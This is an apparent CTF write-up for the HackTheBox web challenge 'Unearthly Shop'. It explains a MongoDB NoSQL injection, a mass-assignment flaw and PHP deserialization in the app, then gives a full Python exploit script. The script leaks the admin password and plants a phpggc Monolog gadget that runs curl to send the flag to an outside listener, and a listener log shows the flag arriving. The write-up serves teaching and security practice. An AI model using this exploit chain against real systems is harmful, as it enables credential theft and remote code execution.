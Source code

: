 # [Web - hard] Unearthly Shop

Disclaimer: this challenge was not fully solved. The last part we needed was to include a class from outside the backend, and taken from HTB discord write-ups.

This webapp is written in PHP and uses a MongoDB database. It has 2 components:

- a frontend, that displays items in a store, and on which users can send bids
- a backend, through which an admin can login in order to view a Dashboard, and manage the Products, the Orders, and the Users

This webapp contains 2 vulnerabilities:

- listing the products is the as-is MongoDB query: it can be used with a NoSQL injection to list the products and the users, which will give the admin password (passwords are stored in clear, not using bcrypt for instance)
```php
    public function products($router)
    {
        $json = file_get_contents('php://input');
        $query = json_decode($json, true);
        if (!$query)
        {
            $router->jsonify(['message' => 'Insufficient parameters!'], 400);
        }
        $products = $this->product->getProducts($query);
```
- using the admin interface, the password change function can accept more than the password change: it can be used to modify other attributes of the user, such as the Access
```php
    public function update($router)
    {
        $json = file_get_contents('php://input');
        $data = json_decode($json, true);
        if (!$data['_id'] || !$data['username'] || !$data['password'])
        {
            $router->jsonify(['message' => 'Insufficient parameters!'], 400);
        }
        if ($this->user->updateUser($data)) {
            $router->jsonify(['message' => 'User updated successfully!']);
        }

```
- the Access of an user is a serialized PHP object. It is deserialized upon instanciation of a Controller, taking values from the user Session
```php
class UserModel extends Model
{
    public function __construct()
    {
        parent::__construct();
        $this->username = $_SESSION['username'] ?? '';
        $this->email    = $_SESSION['email'] ?? '';
        $this->access   = unserialize($_SESSION['access'] ?? '');
    }
[...]
class Controller
{
    public $user;
    public $access;
    public $username;
    public function __construct($privileged = False, $required_access = [])
    {
        $this->database = Database::getDatabase();
        $this->user     = new UserModel;
        $this->product  = new ProductModel;
        $this->order    = new OrderModel;
```

Thus the path to the flag is to:

- use the NoSQLi in the product listing to get the admin password
- login as the admin
- craft a serialized PHP object that will contain an RCE, exfiltrating the flag from the filesystem. In PHP the serialization needs to use a class that is present for instanciation. This application having 2 parts (frontend + backend), and since we are invoking it from the backend, we need to rely on [this trick](https://www.ambionics.io/blog/vbulletin-unserializable-but-unreachable) to `autoload` the corresponding class. The frontend includes a vulnerable `monolog` library, exploitable from a classic [phpggc](https://github.com/ambionics/phpggc) gadget
- use that serialized object, and abuse the update password function to update the admin Access
- login and display the admin user info to instanciate the Controller, which will deserialize our payload, leading to an RCE

The final script is:

```python
import requests
import json
import subprocess

endpoint = "http://165.232.108.240:31054"

def main():
    s = requests.Session()
    # NoSQLi for admin pass
    response = s.post(endpoint + '/api/products', data = '[{"$match":{"instock":true}}, {"$unionWith": { "coll": "users" }}]')
    admin_pass = json.loads(response.text)[-1]['password']
    print("Admin password: {}".format(admin_pass))

    # login with admin
    response = s.post(endpoint + '/admin/api/auth/login', data = {"username": "admin", "password": admin_pass})
    print(response.text)

    # https://www.ambionics.io/blog/vbulletin-unserializable-but-unreachable
    serial_object = 'a:2:{i:0;O:28:"www_frontend_vendor_autoload":0:{}i:1;'
    # ./phpggc Monolog/RCE6 system "curl http://180.129.100.155:4444/?c=\$(/readflag)" -a 2>/dev/null | grep O:
    serial_object += 'O:37:"Monolog\Handler\FingersCrossedHandler":3:{S:16:"\00*\00passthruLevel";i:0;S:9:"\00*\00buffer";a:1:{S:4:"test";a:2:{i:0;S:48:"curl http://180.129.100.155:4444/?c=$(/readflag)";S:5:"level";N;}}S:10:"\00*\00handler";O:29:"Monolog\Handler\BufferHandler":7:{S:10:"\00*\00handler";N;S:13:"\00*\00bufferSize";i:-1;S:9:"\00*\00buffer";N;S:8:"\00*\00level";N;S:14:"\00*\00initialized";b:1;S:14:"\00*\00bufferLimit";i:-1;S:13:"\00*\00processors";a:2:{i:0;S:7:"current";i:1;S:6:"system";}}}'
    serial_object += '}'

    # Update admin access serial object
    # Normal access: a:4:{s:9:"Dashboard";b:1;s:7:"Product";b:1;s:5:"Order";b:1;s:4:"User";b:1;}
    # to restore: use unearthly_shop; db.users.updateOne({username: "admin"},{$set: {access: 'a:4:{s:9:"Dashboard";b:1;s:7:"Product";b:1;s:5:"Order";b:1;s:4:"User";b:1;}'}});
    response = s.post(endpoint + '/admin/api/users/update', json = {"_id": 1, "username": "admin", "password": admin_pass, "access": serial_object})
    print(response.text)

    # unserialize at user creation, which is polluted at user login, and used in view
    # login with admin
    response = s.post(endpoint + '/admin/api/auth/login', data = {"username": "admin", "password": admin_pass})
    response = s.get(endpoint + '/admin/api/users/1')
    print(response.text)

main()
```

And on the HTTP listener:

```bash
pi@raspberrypi:/tmp/lol $ python -m http.server 4444
Serving HTTP on 0.0.0.0 port 4444 (http://0.0.0.0:4444/) ...
165.232.108.240 - - [25/Mar/2023 16:19:36] "GET /?c=HTBl00kup_4r7if4c75_4nd_4u70lo4d_g4dg37s HTTP/1.1" 200 -
165.232.108.240 - - [25/Mar/2023 16:19:37] "GET /?c=HTBl00kup_4r7if4c75_4nd_4u70lo4d_g4dg37s HTTP/1.1" 200 -
```
